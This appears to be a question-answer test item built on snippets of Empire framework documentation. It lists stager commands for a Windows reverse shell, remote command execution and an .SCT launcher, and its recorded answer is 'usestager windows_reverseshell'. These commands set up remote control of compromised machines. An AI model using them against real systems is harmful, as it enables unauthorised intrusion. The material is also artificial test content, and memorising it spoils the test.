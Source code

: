Context:```
    
------------------------------------------------------------------------------------------------------------------------------------------------------------ 

### Reverse Shell Payload for Windows Systems with Empire BC
This payload establishes a reverse shell connection back to the Empire server.

1. **Select the Stager**:
    ```bash
    usestager windows_reverseshell
```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Windows Command Execution via CMD for Remote Payloads with Empire BC
This payload creates a command execution script to trigger remote payloads.

1. **Select the Stager**:
    ```bash
    usestager windows_cmd_exec
```
    
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Windows Script Command (.SCT) Payload Launcher with Empire BC
This payload generates a Windows script command (.SCT) file for execution.

1. **Select the Stager**:
    ```bash
    usestager windows_launcher_sct

 Question: Provide an example of a *usestager* command for *reverse shell for windows* with  Empire BC. The command should specify the correct type of stager to generate a reverse shell stager. In your final response, provide only the right *Bash command* and nothing else.  

 Your response: 
```bash
usestager windows_reverseshell
```